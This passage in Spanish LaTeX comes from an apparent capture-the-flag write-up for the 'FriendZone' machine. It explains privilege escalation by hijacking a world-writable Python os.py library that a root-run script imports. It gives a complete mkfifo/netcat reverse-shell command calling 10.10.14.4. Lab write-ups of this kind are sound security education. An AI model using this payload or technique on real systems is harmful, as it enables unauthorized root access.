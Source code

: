 \documentclass{article}
\begin{document}
vemos que no tiene permisos de escritura lo cual no dejaría hacer hijacking directamente con él.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/friendzone/permisos-reporter.png}
	\caption{Permisos del reporter.py}
\end{figure}

Pero si revisamos con un cat qué es lo que hace vemos que tiene una librería os siendo llamada.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/friendzone/cat-reporter.png}
	\caption{cisualizando el reporter}
\end{figure}

Y además revisamos que tiene permisos de escritura este archivo, lo cual es sumamente raro en una librería, esta no debería poderse modificar por un usuario convencional en este caso "www-data".

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/friendzone/permisos-os.png}
	\caption{permisos del os.py}
\end{figure}

Entonces lo modificamos y le añadimos las líneas "system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1235 >/tmp/f')" al final del archivo o solo reemplazándolo, y con esto debería ser suficiente.
esperando en la consola con el netcat obtenemos la reverse shell con permisos de root ya que este proceso corría bajo uid de root.
\end{document}
